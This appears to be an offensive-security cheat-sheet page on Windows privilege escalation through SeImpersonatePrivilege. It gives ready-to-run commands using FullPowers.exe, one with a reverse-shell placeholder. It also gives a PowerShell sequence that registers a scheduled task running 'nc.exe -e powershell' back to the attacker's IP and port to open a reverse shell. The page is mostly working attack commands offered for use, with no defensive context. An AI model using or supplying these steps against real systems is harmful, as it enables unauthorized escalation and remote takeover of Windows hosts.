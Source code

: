 ```yaml
---
title: "SeImpresonate"
date: 2024-8-2
tags: ["SeImpresonate", "Windows", "Potato", "Privilege Escalation", "Fullpower", "Scheduled Tasks"]
---
```


### Abuse #1: Recover SeImpresonate

```console
.\FullPowers.exe -c "whoami /priv"
```

```console
# Revshell
.\FullPowers.exe -c "<POWERSHELL_3_BASE64>"
```

<small>*Ref: [FullPower](https://github.com/itm4n/FullPowers/releases/tag/v0.1)*</small>

### Abuse #2: Recover tokens via schedule task

```console
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
```

```console
# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "<SERVICE_ACCOUNT>" -LogonType ServiceAccount -RequiredPrivilege $Privs
```

```console
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `C:\\Windows\\Tasks\\nc.exe -e powershell <LOCAL_IP> <LOCAL_PORT>`""
```

```console
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask" -Principal $TaskPrincipal
```

```console
# Start the task
Start-ScheduledTask -TaskName "SomeTask"
```
